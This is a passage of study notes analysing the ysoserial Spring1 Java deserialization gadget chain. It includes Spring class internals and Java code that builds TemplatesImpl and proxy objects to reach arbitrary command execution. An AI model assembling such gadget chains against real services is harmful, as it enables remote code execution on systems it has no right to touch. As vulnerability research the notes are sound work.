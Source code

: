 ```java
	    mv.put(name, value);
	    ...
	}
	UnsafeAccessor.setMemberValues(this, mv);
}
```
There is an constraint that the type of `memberValues` should equals to that of the return type of the method to be hooked.

#### Kick-off : MethodInvokeTypeProvider
`MethodInvokeTypeProvider` class is an inner class of `org.springframework.core.SerializableTypeWrapper`. In its `readObject()`:
```java
private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException {  
   inputStream.defaultReadObject();  
   Method method = ReflectionUtils.findMethod(this.provider.getType().getClass(), this.methodName);  
   this.result = ReflectionUtils.invokeMethod(method, this.provider.getType());  
}
```
If we can control `methodName` and `provider.getType()`, then we can execute any code.
By using the measure introduced [[Java Deserialize Vulnerabilities ysoserial study#AnnotationInvocationHandler special functionality|here]], we can hook `getType()` to return an object in `Type` class. It is expected to get a `TemplatesImpl` when call `getType()` and invoke its `newTransformer()`. So we need to introduce `ObjectFactoryDelegatingInvocationHandler`.

#### ObjectFactoryDelegatingInvocationHandler
It is an inner class of `org.springframework.beans.factory.support.AutowireUtils`. It is an `InvocationHandler`. Let's look at its `invoke()`:
```java
public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {  
    String methodName = method.getName();  
    if (methodName.equals("equals")) {  
        return proxy == args[0];  
    } else if (methodName.equals("hashCode")) {  
        return System.identityHashCode(proxy);  
    } else if (methodName.equals("toString")) {  
        return this.objectFactory.toString();  
    } else {  
        try {  
            return method.invoke(this.objectFactory.getObject(), args);  
        } catch (InvocationTargetException var6) {  
            throw var6.getTargetException();  
        }  
    }  
}
```
The invocation will be delegated to the object returned by `objectFactory`. We can create an `ObjectFactory` proxy and hook `getObject()` method for returning `TemplatesImpl`.
```java
final Object templates = Gadgets.createTemplatesImpl(command);  
  
final ObjectFactory objectFactoryProxy =  
      Gadgets.createMemoitizedProxy(Gadgets.createMap("getObject", templates), ObjectFactory.class);
```
Equip `ObjectFactoryDelegatingInvocationHandler` with this `ObjectFactory` and create a `Type` proxy:
```java
final Type typeTemplatesProxy = Gadgets.createProxy((InvocationHandler)  
      Reflections.getFirstCtor("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler")  
         .newInstance(objectFactoryProxy), Type.class, Templates.class);
```

[^1]: [Paper/浅谈Java反序列化漏洞修复方案.md at master · Cryin/Paper](https://github.com/Cryin/Paper/blob/master/%E6%B5%85%E8%B0%88Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D%E6%96%B9%E6%A1%88.md)